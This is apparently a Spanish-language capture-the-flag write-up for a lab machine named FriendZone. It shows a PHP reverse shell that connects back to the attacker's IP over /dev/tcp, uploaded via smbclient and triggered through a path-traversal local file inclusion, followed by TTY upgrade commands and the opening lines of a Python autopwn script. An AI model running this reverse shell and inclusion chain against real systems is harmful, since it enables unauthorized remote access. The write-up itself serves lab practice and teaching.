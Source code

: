 ### Ganando accesso con un un LFI {-}

1. Creamos un fichero reverse.php

    ```php
    <?php
        system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");
    ?>
    ```

1. Con smbclient, subimos el fichero

    ```bash
    put reverse.php
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En el dashboard, intentamos ver si vemos la pagina

    ```bash
    https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/Development/reverse
    ```

Ya hemos ganado acceso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Creando un autopwn en python {-}

```python
#!/usr/bin/python3

import pdb
import urllib3
import urllib

from smb.SMBHandler import SMBHandler

from pwn import *

def def_handler(sig, frame):

    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

```